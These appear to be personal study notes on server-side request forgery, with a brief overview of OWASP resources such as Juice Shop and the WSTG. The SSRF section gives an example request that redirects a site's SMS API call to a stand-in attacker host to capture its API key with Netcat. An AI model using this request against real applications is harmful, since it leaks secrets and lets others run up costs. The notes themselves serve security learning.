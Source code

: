> [!NOTE]
> This occurs when an application fetches a remote resource based on user input but doesn't validate the user-provided URL

This type of vulnerability occurs when an attacker can coerce a web application into sending requests on their behalf to arbitrary destinations while having control of the contents of the request itself
- SSRF vulnerabilities often arise from implementations where our web application needs to use third-party services.

![[Screenshot from 2024-09-28 15-55-19.png]]

- An attacker tricking the server into making requests to internal services or external malicious sites
By looking at the diagram above, it is easy to see where the vulnerability lies. The application exposes the `server` parameter to the users, which defines the server name of the SMS service provider. If the attacker wanted, they could simply change the value of the `server` to point to a machine they control, and your web application would happily forward the SMS request to the attacker instead of the SMS provider. As part of the forwarded message, the attacker would obtain the API key, allowing them to use the SMS service to send messages at your expense. To achieve this, the attacker would only need to make the following request to your website:

`https://www.mysite.com/sms?server=attacker.thm&msg=ABC`

This would make the vulnerable web application make a request to:

`https://attacker.thm/api/send?msg=ABC` 

You could then just capture the contents of the request using Netcat

#### Prevention
- Validate and sanitize all URLs before fetching resources, and restrict access to internal services

---

# Other OWASP Tools and Resources

#### OWASP Juice Shop
- A deliberately vulnerable web application designed for security professionals to practice hacking techniques and identify security issues

#### OWASP Risk Rating Methodology
- This provides a framework for rating the severity of security risks based on factors like likelihood and impact

#### OWASP Web Security Testing Guide (WSTG)
- A comprehensive manual for testing the security of web application

---

## How to Use OWASP Resources
- **For Developers**: OWASP provides actionable security guidelines and best practices to help developers write secure code.
- **For Penetration Testers**: OWASP tools like ZAP and the WSTG are invaluable resources for testing applications for security flaws.
- **For Organizations**: OWASP frameworks like SAMM and ASVS can be used to assess the security maturity of your organization and ensure that security is integrated throughout the development lifecycle.